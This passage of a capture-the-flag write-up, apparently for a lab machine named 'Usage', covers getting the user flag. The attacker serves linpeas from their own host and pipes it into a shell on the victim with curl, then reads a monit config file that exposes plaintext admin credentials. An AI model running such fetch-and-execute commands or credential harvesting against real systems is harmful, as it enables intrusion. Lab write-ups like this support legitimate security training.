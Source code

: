 ## User dash - user flag

We can find the user flag at `/home/dash/user.txt`.

We will try to use `linpeas`.\
On Attacker:
```bash
$ sudo python3 -m http.server 80
```
On Victim:
```bash
dash@usage:/$ curl 10.10.14.82/linpeas.sh | sh
```

We see there are some weird hidden files in our user's home directory:\
![linpeas modified interesting files](images/usage-linpeas-hidden-files-in-dash.png)

There we find these:
```bash
dash@usage:~$ ls -a                                                            
ls -a
.              .bashrc  .gnupg     .monit.pid    .mysql_history  snap
..             .cache   .local     .monit.state  .profile        user.txt
.bash_history  .config  .monit.id  .monitrc      .ssh
```

In `.monitrc` we find something interesting:
```bash
dash@usage:~$ cat .monitrc
cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
```